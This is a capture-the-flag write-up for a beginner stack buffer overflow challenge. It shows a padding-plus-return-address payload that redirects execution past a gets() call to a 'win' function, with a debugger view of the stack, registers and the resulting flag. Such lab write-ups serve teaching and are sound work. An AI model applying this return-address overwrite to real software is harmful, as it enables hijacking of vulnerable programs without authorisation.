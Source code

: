 # BofSchool
Exploitation

## Challenge 

DESCRIPTION
Welcome to Pwn101.

stty -icanon -echo ; nc chals.whitehacks.ctf.sg 12001; stty sane

Controls:

q           - Quit the program
[Backspace] - Delete character
[Enter]     - Send payload

Use `\xXX` to send hex encoded characters (useful for unprintable characters), e.g. "\x44\x41\x42" is equivalent to "DAB"
Author: lord_idiot

## Solution

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x66\x05\x40\x00\x00\x00\x00\x00

It shows a GDB for us

	┌ Stack ─────────────────────────────────────────────┐┌ Disassembly ─────────────────────────────────────────────────┐
	│                                                    ││                                                              │
	│ 0x00007fffffffd770|+0x00: 61 61 61 61 61 61 61 61  ││ win:                                                         │
	│ 0x00007fffffffd778|+0x08: 61 61 61 61 61 61 61 61  ││  0x0000000000400566 <+0> :    push   rbp                     │
	│ 0x00007fffffffd780|+0x10: 61 61 61 61 61 61 61 61  ││  0x0000000000400567 <+1> :    mov    rbp,rsp                 │
	│ 0x00007fffffffd788|+0x18: 61 61 61 61 61 61 61 61  ││  0x000000000040056a <+4> :    mov    edi,0x601060 <flag>     │
	│ 0x00007fffffffd790|+0x20: 61 61 61 61 61 61 61 61  ││  0x000000000040056f <+9> :    call   0x400430 <puts@plt>     │
	│ 0x00007fffffffd798|+0x28:┌ Result ────────────────────────────────────────┐+14>:    nop                            │
	│ 0x00007fffffffd7a0|+0x30:│                                                │+15>:    pop    rbp                     │
	│ 0x00007fffffffd7a8|+0x38:│ Congrats! You got the flag :D                  │+16>:    ret                            │
	│ 0x00007fffffffd7b0|+0x40:│   WH2020{A_for_pwning!}                        │                                        │
	│ 0x00007fffffffd7b8|+0x48:└────────────────────────────────────────────────┘                                        │
	│ 0x00007fffffffd7c0|+0x50: 00 00 00 00 00 00 00 00  ││  0x0000000000400577 <+0> :    push   rbp                     │
	│                                                    ││  0x0000000000400578 <+1> :    mov    rbp,rsp                 │
	└────────────────────────────────────────────────────┘│  0x000000000040057b <+4> :    sub    rsp,0x20                │
	┌ Registers ─────────────────────────────────────────┐│  0x000000000040057f <+8> :    lea    rax,[rbp-0x20]          │
	│                                                    ││  0x0000000000400583 <+12>:    mov    rdi,rax                 │
	│ rip:  0x0000000000400566                           ││  0x0000000000400586 <+15>:    mov    eax,0x0                 │
	│ rsp:  0x00007fffffffd798                           ││  0x000000000040058b <+20>:    call   0x400450 <gets@plt>     │
	│ rbp:  0x00007fffffffd798                           ││  0x0000000000400590 <+25>:    mov    eax,0x0                 │
	│ rdi:  0x0000000000601060                           ││  0x0000000000400595 <+30>:    leave                          │
	│ rax:  0x0000000000000000                           ││  0x0000000000400596 <+31>:    ret                            │
	│                                                    ││                                                              │
	└────────────────────────────────────────────────────┘└──────────────────────────────────────────────────────────────┘
	┌ Input ─────────────────────────────────────────────────────────────────────────────────────────────────────────────┐
	│ aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x66\x05\x40\x00\x00\x00\x00\x00                                           │
	└────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┘

## Flag

	WH2020{A_for_pwning!}